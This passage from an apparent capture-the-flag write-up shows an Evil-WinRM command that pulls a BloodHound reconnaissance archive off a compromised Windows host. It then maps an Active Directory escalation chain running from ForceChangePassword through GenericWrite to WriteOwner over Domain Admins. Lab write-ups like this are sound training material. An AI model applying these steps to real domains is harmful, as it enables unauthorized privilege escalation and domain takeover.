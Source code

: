 

The Zip archive is the results, which I'll download to my VM:



    *Evil-WinRM* PS C:\programdata> download C:\programdata\20220227174044_BloodHound.zip 20220227174044_BloodHound.zip
    Info: Downloading C:\programdata\20220227174044_BloodHound.zip to 20220227174044_BloodHound.zip

                                                                 
    Info: Download successful!



#### Analysis

I'll load that data into BloodHound and take a look. It important to not
use the newest version of BloodHound (4.1+), as the data from this older
PS1 file won't load. So I found the release before they removed the
PowerShell collector and used that,
[4.0.3](https://github.com/BloodHoundAD/BloodHound/releases/tag/4.0.3).

First I'll find oliver and mark that user as owned. The first place to
look is the "Outbound Control Rights", which shows oliver has
`ForceChangePassword` over smith.

![](/img/image-20220227210442678.png)

Doing the same for smith, shows that user has `GenericWrite` over maria,
and maria has `WriteOwner` over Domain Admins.
